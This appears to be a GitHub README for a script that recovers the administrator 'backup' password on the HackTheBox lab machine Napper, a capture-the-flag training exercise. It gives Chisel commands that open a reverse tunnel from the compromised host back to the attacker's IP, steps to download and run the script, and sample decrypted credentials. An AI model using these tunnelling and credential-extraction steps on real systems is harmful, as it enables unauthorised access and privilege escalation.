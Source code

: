 ## About

A GO Lang script that will get you the password for the Administrator user `backup` on [Napper](https://app.hackthebox.com/machines/Napper).<br>

## Requirements

Your machine has to be linked to Napper with a reverse port forward on port 9200. Here's a way to do it using [Chisel](https://github.com/jpillora/chisel).
  - Run this on your linux machine:
```console
user@kali:~$ chisel server -p 9000 --reverse
user@kali:~$
```
  - Run this on Napper:
```console
C:\Users\ruben\Desktop> chisel.exe client <YOUR_IP>:9000 R:9200:127.0.0.1:9200
C:\Users\ruben\Desktop> 
```
> **Change `<YOUR_IP>` with your `tun0` IP address.**<br>
> *You can also use an available port different than 9000 if you want.<br>
> `chisel.exe` is **NOT** installed by default on Napper. It is your job to get it on Napper before using this script.*

Obviously GO Lang has to be installed on your linux machine (where the script will be executed). If you don't have it installed yet, visit [this link](https://go.dev/doc/install).<br>

## Usage

Firstly you download the script. After that you give the script the execution permission. Finally you run the script.
```console
user@kali:~$ wget https://github.com/0tonoon/Napper_Script/blob/main/Pass_script
user@kali:~$ sudo chmod +x Pass_script
user@kali:~$ go run Pass_script
user@kali:~$ 
```
If all went well, it will produce an output similar to this:
```console
Key: 6b871be7d935fc2a7d2a974b798e6c9b
IV: 87f47937c807cf2c6c98e01a11684ea7
Encrypted Data: 3c09b34edb32df9cb252ae6f7c84e8b61ddaf9ee88508f79c104f3d7ee61317ed38eb8cfb2173e16
Decrypted Data: qFrbskeXMiWlmnyqtlrwkqqHmcztbBmXUdfAlgvn
```
<hr>

`Decrypted Data` is the password for the `backup` user. Now it's your turn to find a way to use it and finish your privesc.
